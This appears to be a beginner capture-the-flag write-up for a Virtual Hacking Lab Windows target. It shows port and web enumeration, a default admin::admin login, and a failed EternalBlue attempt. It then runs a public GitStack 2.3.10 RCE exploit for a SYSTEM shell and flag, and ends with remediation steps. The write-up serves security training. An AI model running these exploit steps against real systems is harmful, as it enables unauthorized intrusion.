# Anthony - Virtual Hacking Lab

| Info | Details |
|-----|--------|
| Platform | Virtual Hacking Lab |
| Difficulty | Beginner |
| Target IP | 10.11.1.113 |
| OS | Windows |
| Vulnerability | SMB (Eternal Blues) & GitStack Web 2.3.10 |
| Tools Used | Nmap, Gobuster, Searchsploit |

## Attack Path
1. Reconnaissance   
2. Port Scanning (Nmap)  
3. Web Enumeration  
4. Admin Panel Discovery  
5. Default Credential Login  
6. GitStack 2.3.10 RCE  
7. SYSTEM Shell  
8. Capture Flag

## Environment Setup

First, create a working directory and files to organize enumeration results.

```bash
mkdir anthony
cd anthony
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```

## Network Scanning

Identify the target IP and perform a full port scan.

```bash
ip='10.11.1.113'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder
When reviewing scan results:
    1. Check all detected service versions
    2.Investigate every open port



## smb

```bash
smbclient -L \\$ip
```


```bash
# try enum4linux
enum4linux -a $ip
"No useful information here"
```
# Web Enumeration


seems like a 404 page here. But also showed some directories here

Lets try directory search

``` bash
# Gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42

# dirsearch
dirsearch -u $ip
```



from /web shows is a git page



lets try directory search on /web

```bash
gobuster dir -u http://$ip/web -w /usr/share/wordlists/dirb/common.txt -t 42
```



Navigating to `/key` returned uq0c8n6id4aaj8ivr67e



found a credentials, might be useful after that

```bash
echo 'uq0c8n6id4aaj8ivr67e' > pass.txt
```

in /index.php found



After enumerating all the directories and website, I will start the post exploitation.

## Exploitation

First the thing I suspect is the smb version, let try if i could find any vulnerabilities here

```bash
nmap --script vuln -Pn 10.11.1.113 -p 445
```



From the results, it shows CVE-2017-0143 (Eternal Blue) vulnerabilities.

Search for the exploitation now.

```bash
git clone https://github.com/h3x0v3rl0rd/MS17-010.git

cd MS17-010

python3 exploit.py 10.11.1.113
```



It shows unable to find a named pipe. Let moved on to another vulnerabilities

```bash
git clone https://github.com/snix0/GitStack-RCE-Exploit-Shell.git

python2 exploit.py 10.11.1.113
```



Failed to create a user. While look back to the web application


it shows three directory here

Navigate to `http://10.11.1.113/registration/login`



it shows a login page, and telling the username and password
admin::admin

Login with the username and credentials



it returns 404 again. but this time I try going to /gitstack, and also saw the version is GitStack 2.3.10 which fit our previous exploitation version.



Success on getting into an admin panel. 

Base on the GitStack exploitation code, seems like we need to create a user and repo. Lets do it here manually.



Create a user rce::rce

Now lets create a repo



Seems like i pretty setting up, let try the exploitation code again.

```bash
python2 exploit.py 10.11.1.113
```



Success received a remote shell
## Key.txt
```powershell
whoami
hostname
date
"Since my user privilege is already authority and system, so i don't need to priv esc here"

type C:\Users\Administrator\Desktop\key.txt
```

Retrieved the flag.


# Remediation

## Patch Vulnerable Software

Upgrade GitStack or remove it if unnecessary.

## Remove Default Credentials

Change default admin credentials during deployment.

## Restrict Admin Access

Protect admin panels with:

    1. VPN access
    2. IP restrictions
    3. MFA

## Patch SMB Vulnerabilities

Ensure systems are patched against: `MS17-010 (EternalBlue)`